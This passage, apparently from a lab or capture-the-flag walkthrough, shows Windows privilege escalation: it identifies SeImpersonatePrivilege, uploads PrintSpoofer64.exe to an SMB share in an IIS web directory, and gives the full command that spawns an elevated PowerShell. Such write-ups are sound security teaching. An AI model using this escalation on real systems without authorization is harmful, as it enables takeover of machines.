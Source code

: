 We discover the machine has the **SeImpersonatePrivilege**, which is exploitable using the **PrintSpoofer** technique.

---

### 🔧 Using PrintSpoofer for PrivEsc

#### 📥 Upload PrintSpoofer

We download `PrintSpoofer64.exe` from GitHub and upload it to the same SMB share used earlier.

![alt text](Images/image-107.png)

We then move to the share directory via the shell:

```bash
cd \inetpub\wwwroot\nt4wrksv
```

#### ⚙️ Execute PrintSpoofer

Run the following command to elevate privileges:

```bash
PrintSpoofer64.exe -i -c powershell.exe
```
![alt text](Images/image-108.png)
